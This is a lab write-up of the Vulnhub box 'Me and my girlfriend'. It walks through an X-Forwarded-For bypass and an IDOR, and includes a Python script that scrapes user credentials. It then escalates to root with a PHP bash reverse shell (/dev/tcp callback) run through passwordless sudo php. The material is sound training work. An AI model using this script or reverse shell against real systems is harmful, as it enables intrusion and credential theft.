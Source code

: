 # Vulnhub : Me and my girlfriend
***
This is one of the first boxes I solved while learning cyber security. This is my version of how I solved the box. Enjoy 
<br><br>
## Recon
***
First we need to find the device on the network.
```bash
nmap 192.168.56.*
```

![Basic nmap](./screenshots/2_nmap.png)

From the result we can see that our vulnhub box has ip 192.168.56.120. Lets scan the device using nmap again

```bash
nmap 192.168.56.126 -sC -sV -oN nmap
```

![Detailed nmap](./screenshots/2_nmap.png)

Only SSH and a HTTP is available for the time being. Lets see the webpage.

![Landing page](./screenshots/3_landing.png)

It has a message. Looks like the webserver accepts request from localhost. Lets see the source code to see if its a framework or just some typed code

![Web source code](./screenshots/4_source.png)

Well, there is a comment : <br> ``` Maybe you can search how to use x-forwarded-for```

For all who didn't get it. You see, when we make a web request additonal details are sent with the request; like type of request, data inside the requests, origin etc... Such details are stored in the headers. Now, there are standard headers as well as custom headers. <br>
**X-Forwarded-For** is one such custom header, which specifies the **origin of the request**. There are several similar headers, I'll leave that to you to explore <br>

Let us use burp to test our theory. First i'll capture the request and then I'll modify it.
![Burp test](./screenshots/5_burp.png)

I'll forward the request to Repeater tab and lets add our X-Forwarded-For header
![Burp response](./screenshots/6_add_header.png)

Well, you can see we get a 302 redirect. Lets render the page inside burp and get what is inside.
![Rendered webpage](./screenshots/7_rendered.png)
The page looks legit. For our convinience lets do a small workaround. Instead of adding the header manually to each request, lets tell burp to add them and we'll view the result in the browser.
<br>
In burp, ***Options*** ==> ***Match and Replace*** ==> ***Add**<br>

![Add rule](./screenshots/8_match_and_replace.png)

Don't match for anything, just add X-Forwarded-For header to request. Click okay and make sure that a blue checkmark is enabled. Now disable intercept and view the webpage in browser.
![Browser response](./screenshots/9_landing.png)
Looks like it has some register functionality. Lets add a new user and see the working inside. I'll make my account as legit as possible.
![Account creation](./screenshots/10_register.png)
After registering we get a profile section. Lets visit that.
![Profile section](./screenshots/11_after_register.png)
Did you notice something ? 
1. URL has an ***user_id** parameter
2. Profile page shows our password in a form
<br>

This might be our entry point. First of all if there is a user_id that the web server is using to display data, maybe we can change and look at other user's data.<br>
Second of all, note that the password is masked, but it will be visible if you inspect the webpage
![Close inspection](./screenshots/12_profile_page.png)
<br><br>
![IDOR](./screenshots/13_idor.png)
As it turns out we can see others users data.
Lets write a simple python script to gather data of exiting users.

<br>
Here's the code : [get_creds.py](https://gist.github.com/ajaysram/80a19ec3f91ce761e62c0b56b11d037e)

```python
import requests
import re


headers = {"X-Forwarded-For":"localhost"}

requests.get("http://192.168.56.125/?page=login",headers=headers)
data = {"username":"dbadmin","password":"1234"}

with requests.Session() as s:
    a = s.post("http://192.168.56.125/misc/process.php?act=login",data=data,headers=headers)

    base_url = "http://192.168.56.125/?page=profile&user_id="
    print("USER",21*' ',"USERNAME",17*' ',"PASSWORD")
    for i in range(0,100):
        user_url = base_url + str(i)
        d = s.post(user_url,headers=headers)
        data = re.findall('value=.*\"',d.text)

        cleaned = []
        for d in data:
            cleaned.append(d.replace('value="',"").replace('"',""))

        names     = cleaned[0]
        usernames = cleaned[1]
        password  = cleaned[2]
        if len(names) != 0:
            print(names,(25-len(names))*' ',usernames,(25 - len(usernames))*' ',password)
```

![Gathering creds](./screenshots/14_creds.png)

**tee** command here, works similar to the letter **T**. It takes output of a result and splits then into two; first to standard out and other to a file.

<br><br>
## Getting user
***
Let's SSH into the box as alice with the password we gathered.
![SSH Alice](./screenshots/15_alice_ssh.png)
And it works ! That's why we say not to use same password for all stuffs !!!
Lets list all directories and see the contents inside.
![Flag 1](./screenshots/16_flag1.png)
There is your first flag and a note. Do read them.<br>
Lets get move on. Now, lets see if we can get root (admin) privileges. Do a sudo listing and see the commands **root** can run.
![Sudo listing](./screenshots/17_sudo_list.png)
Whoa !!! root can run php without password. Now you know what to do next.<br>
Lets create a php reverse shell and get a connection callback.<br>
![PHP reverse shell](./screenshots/18_revshell.png)
```php
<?php 
    exec(""/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/9000 0>&1');
?>
```

<br>
<br>

## Getting root
***

Lets run the revershell as root. Since root can run php without password, we get a connection with root priviledges.
![Getting root](./screenshots/19_getting_root.png)

And there you have it, you have full control over the box.<br>
***
The box is pretty simple to solve and focuses on small parts of cybersecurity. You get to learn new stuff and you code some cool scripts. Do follow for more writeups.<br>
Till then, keep learning